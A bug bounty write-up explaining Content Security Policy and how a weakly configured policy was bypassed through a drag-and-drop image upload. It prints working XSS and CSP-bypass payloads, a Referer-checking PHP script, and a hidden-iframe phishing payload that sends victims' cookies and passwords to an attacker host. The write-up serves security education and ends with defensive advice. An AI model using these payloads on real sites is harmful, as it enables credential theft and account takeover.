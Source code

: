```yaml
---
date: 2016-07-21
title: 'Exploiting weak Content Security Policy (CSP) rules for fun and profit'
template: post
slug: exploiting-weak-content-security-policy-csp-rules-for-fun-and-profit
categories:
 - Bug Bounty
 - Web Application Security
tags:
 - Bug Bounty
 - Web Application Security
---
```


This article is based on my findings during a bug bounty. I was looking for any input bugs which could trigger a XSS but didn't find any until I tested the file upload functionality. Users had the option to drag&drop images into the company's website and place it in their gallery, however by specifying an image like this:
```html
<img src="https://hackerdomain.hax/img.php" onerror="this.src=alert(1)"/>
```
And dropping it into the website trigged an XSS.

Before I continue my report I will first cover what CSP is and what it tries to accomplish. If you feel you are already experienced in the area you can skip to the next section.

## What is CSP?
Content Security Policy (CSP) is a client-side security model which allows developers to specify where different types of resources should be loaded, executed and embedded from. With CSP you can instruct the browser only to load javascript resources from a specific domain as well as block inline javascript running on the website. This is very helpful against XSS since most attacks requires inline javascript. There also the possibility to specify a `report-uri` which the browser uses to send detected policy violations *(of course this can be spoofed)*.

However CSP is only effective if used fully, i.e blocking inline javascript and loading resources from trusted domains. This requirement can be too strict for some websites, that's why there are certain work arounds such as using nonces that whitelists specific `<script></script>` tags.

It should be noted that even using *trusted* sources wont always protect you. If JSONP is enabled or e.g. angularjs is hosted on the whitelisted source, it is possible to bypass CSP with the following:

###### JSONP
```
<script src="https://whitelisted.com/jsonp?callback=alert">
```

###### AngularJS
```
<script src="https://whitelisted.com/angularjs/1.1.3/angularjs.min.js">
<div ng-app ng-csp id=p ng-click=$event.view.alert(1)>
```

## Weaknesses
As I mentioned earlier the company had employed CSP which is a good step in the right direction but because of its weak rules I could bypass it entirely and run whatever javascript I wanted once triggered.

Below you can see a copy of the CSP:
```
default-src 'self' https://*.company.com https://*.companyimg.com  *.company.com *.companyimg.com *.google.com connect.facebook.net *.google-analytics.com https://*.googleapis.com *.gstatic.com https://*.facebook.com *.facebook.com www.googleadservices.com googleads.g.doubleclick.net platform.twitter.com *.tiles.mapbox.com *.online-metrix.net *.bnc.lt bnc.lt *.yozio.com 'unsafe-inline' 'unsafe-eval';

media-src 'self' *.companyimg.com blob:;

frame-src *;

connect-src 'self' *.mapbox.com *.company.com company.s3.amazonaws.com ;

img-src * data:;
```

The `default-src` directive is set to only load resources from *self* and the other domains listed unless specified otherwise by other directives. If you haven't noticed it `unsafe-inline` and `unsafe-eval` is also present, which means running inline javascript is allowed **by default**.

Other directives that are of interest is the `frame-src` and `img-src` because they allow resources to be loaded from anywhere. By exploiting `unsafe-inline` and `unsafe-eval` for running inline javascript, `frame-src` for sending data to the attacker's domain and `img-src` to trigger the initial XSS we can deliver a powerful payload.

## The attack
First we construct the image which the victim will drag&drop into their gallery:

```html
<img src="https://hackerdomain.hax/img.php" onerror="this.src=alert(1)"/>
```
This works because the CSP allows images to be loaded from anywhere. You may wonder why the JS is only triggered `onerror` and why the domain it set to `/img.php`.

Once the victim has dropped the image into their gallery, the website will contact the hacker's domain to get a thumbnail image. The `img.php` script will detect the if the `HTTP_REFERER` is set to *company.com* which in that case will return a *404* causing the `onerror` attribute to execute.

##### img.php
```php

if(isset($_SERVER['HTTP_REFERER'])) {
    $ref = $_SERVER['HTTP_REFERER'];
} else {
    $ref = "nope";
}

$pattern = '/.+company.com.+/';
preg_match($pattern, $ref, $matches);

if($matches) {
    return header("HTTP/1.0 404 Not Found");
    die();
} else {
    $name = 'hunter2.jpg';
    $fp = fopen($name, 'rb');

    header("Content-Type: image/jpeg");
    header("Content-Length: " . filesize($name));

    fpassthru($fp);
}

```

Now we can successfully run javascript in the victim's DOM, *what next?* My next step was to steal the user's cookies but the session cookie was set to `HttpOnly` which instructs the browser to not allow javascript to access the cookie. **Bummer!**

My next thought was to change the user's email address to my email and then preform a *Forgot password* which will send the password reset link to my email. However I noticed that once the email has been changed, the user will get a notification and the ability to lock the account. This could still be a viable attack vector depending on how long the user can wait until their ability to lock their account expires.

### Lets go phishing
Instead I chose to try to trick the user into enter their account password because they had been logged out. To accomplish this I needed to build a HTML Form, hide all other HTML elements and be able to send the data to my server.

The communication part was the tricky part because the CSP only allows `XMLHttpRequest` to be used for specific domains. However after a bit of researching I found that I can communicate via iframes and to my luck iframes could be loaded from anywhere according to the CSP. Tunneling data via iframes can be visualised as followed:
<br /><br />
![](../images/iframe_postmessage.png)
<br />
The injected iframe looks like the following:
```html
<iframe src="https://hackerdomain.com/recv.html" name="siteb" id="myframe" style="display:none"></iframe>
```

Once the user enters their password and clicks submit, the following script will send the data to the iframe.
```javascript
<script type="text/javascript">
    form.onsubmit = function() {

        pw=document.getElementById('mypw').value;
        c=document.cookie;
        data={'cookie':c,'pw':pw};
        fi=document.getElementById('myframe');
        fi.postMessage(JSON.stringify(data),'*');

    }
</script>
```

Below you can find the code which receives the data.

##### hackerdomain.com/recv.html
```html
<div id="message"></div>
<script>
window.addEventListener('message', writeMessage, false);
function writeMessage(event) {
    var xmlHttp = new XMLHttpRequest();
    data = JSON.parse(event.data);
    xmlHttp.open( "GET", "https://hackerdomain/stl.php?c="+data.cookie+"&pw="+data.pw, false ); // false for synchronous request
    xmlHttp.send();
    document.getElementById("message").innerHTML = event.data;
}
</script>
```

Once the data has been sent to my domain, from there I can send it to my cookie stealer script and save the data. The final payload can be viewed below:

##### Final Payload
```html
<img src="https://hackerdomain/img.php" onerror="this.src=a=document.getElementsByTagName('head')[0];f=document.createElement('iframe');f.src='https://hackerdomain.com/recv.html';f.name='siteb';f.id='myframe';f.setAttribute('style','display:none');b=document.createElement('script');div=document.createElement('div');div.style='width:660;height:90%;font:16px Arial;padding:3em;text-align:center;margin:auto;';form=document.createElement('form');form.action='#';inp=document.createElement('input');inp.type='password';inp.id='mypw';sub=document.createElement('input');sub.type='submit';sub.id='subid';form.appendChild(inp);form.appendChild(sub);s='*';t='You have been logged out. Please login below to access your account.';b.type='text/javascript';document.body.appendChild(f);fi=document.getElementById('myframe').contentWindow;b.appendChild(document.createTextNode('form.onsubmit = function() {pw=document.getElementById(\'mypw\').value;c=document.cookie;data={\'cookie\':c,\'pw\':pw};fi.postMessage(JSON.stringify(data),\'*\');}'));le=document.getElementsByClassName('left pane')[0];le.setAttribute('style','display:none');ri=document.getElementsByClassName('right pane')[0];ri.setAttribute('style','display:none');c=document.getElementsByClassName('cancelButton')[0];c.setAttribute('style','display:none');a.appendChild(b);m=document.getElementsByClassName('create modelimg')[0];m.style='overflow:hidden;';m.appendChild(div);div.innerHTML=t;div.appendChild(form);"/>
```

## Conclusion
While CSP is a great tool to limit the attack surface for potential attackers, it must be configured properly otherwise you might as well not use it. As shown in this article, the website I was looking for bugs on did use CSP however because of three policy directives which allowed inline javascript, iframes and images to be loaded from anywhere I could successfully mount an attack against any user of the site. This shows how important it is to be aware of the security models you deploy as a developer.

#### References
- http://www.html5rocks.com/en/tutorials/security/content-security-policy/
- https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage
- https://speakerdeck.com/mikispag/making-csp-great-again-michele-spagnuolo-and-lukas-weichselbaum

